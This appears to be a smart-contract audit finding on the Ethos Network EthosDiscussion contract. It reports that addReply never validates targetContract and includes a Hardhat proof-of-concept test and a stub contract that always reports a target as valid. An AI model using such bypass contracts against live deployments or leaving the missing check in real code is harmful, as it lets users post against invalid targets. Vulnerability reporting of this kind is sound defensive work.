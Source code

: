 Amusing Rose Fox

Medium

# No check to ensure the targetContract is a valid Ethos contract

### Summary

The `EthosDiscussion::addReply` function has no check to ensure a valid ethos contract is passed as the targetContract parameter.

### Root Cause

In [`EthosDiscussion::addReply`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosDiscussion.sol#L105-#L145) function there is no check to ensure the targetContract parameter passed in is a valid Ethos contract.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. A user calls the `EthosDiscussion::addReply` function with an invalid `targetContract` and invalid `targetId`.
2. User is able to bypass the check for if the `targetId` is a valid targetId.

### Impact

The user is able to bypass the check for if the `targetId` is a valid and creates a reply for the invalid contract.

### PoC

```javascript
it('POC -- Invalid targetContract set', async () => {
      const { COMMENTER_0, ethosDiscussion, ethosReviewAddress, ethosProfile, OWNER, targetIdbypassAddress } =
        await loadFixture(deployFixture);

      await ethosProfile.connect(OWNER).inviteAddress(COMMENTER_0.address);
      await ethosProfile.connect(COMMENTER_0).createProfile(1);
      await 
        ethosDiscussion
          .connect(COMMENTER_0)
          .addReply(targetbypassAddress, 56668887, defaultReplyContent, defaultReplyMetadata)
    });
```

TargetByPass contract
```solidity
pragma solidity 0.8.26;
import { ITargetStatus } from "../interfaces/ITargetStatus.sol";
contract TargetBypass is ITargetStatus {

    function targetExistsAndAllowedForId(
        uint256 targetId
      ) public view returns (bool exists, bool allowed) {
        exists = true;
        allowed = true;
      }
}
```

### Mitigation

Add a check to ensure only a valid EthosContract can be passed as the targetContract.